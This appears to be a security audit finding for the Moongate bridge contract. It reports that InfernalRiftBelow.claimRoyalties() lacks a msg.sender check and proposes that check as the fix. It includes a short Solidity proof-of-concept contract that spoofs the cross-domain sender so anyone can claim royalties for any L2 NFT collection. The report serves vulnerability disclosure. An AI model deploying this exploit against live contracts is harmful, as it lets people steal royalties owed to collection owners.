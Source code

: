 Perfect Hotpink Tardigrade

High

# Moongate: Anybody can claim royalties for any collection on L2

### Summary

Insufficient `msg.sender` validation in [InfernalRiftBelow.claimRoyalties()](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L220) allows a malicious actor to create a contract that bypasses `ICrossDomainMessenger(msg.sender).xDomainMessageSender() != INFERNAL_RIFT_ABOVE` [check](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L222) thus allowing to claim royalties for any collection.

### Root Cause

As far as I understand, the root cause is that there's a missing `msg.sender` validation step in [InfernalRiftBelow.claimRoyalties()](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L220):
```solidity
if (msg.sender != L2_CROSS_DOMAIN_MESSENGER) {
    revert("NotCrossDomainMessenger");
}
```

### Internal pre-conditions

1. NFT collection must be transferred to L2
2. NFT collection must have none 0 royalties on its address 


### External pre-conditions

_No response_

### Attack Path

1. Malicious user creates a new contract that bypasses [this](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L222) check:
```solidity
contract MaliciousSender is ICrossDomainMessenger {
    InfernalRiftBelow riftBelow;

    constructor(InfernalRiftBelow _riftBelow) {
        riftBelow = _riftBelow;
    }

    function sendMessage(address _target, bytes calldata _message, uint32 _minGasLimit) external payable {}
    
    function xDomainMessageSender() external view returns (address) {
        return riftBelow.INFERNAL_RIFT_ABOVE();
    }

    function run(address _collectionAddress, address _recipient, address[] calldata _tokens) external {
        riftBelow.claimRoyalties(_collectionAddress, _recipient, _tokens);
    }
}
```
2. Malicious user calls `MaliciousSender.run()` for any NFT collection deployed on L2 to claim all available royalties
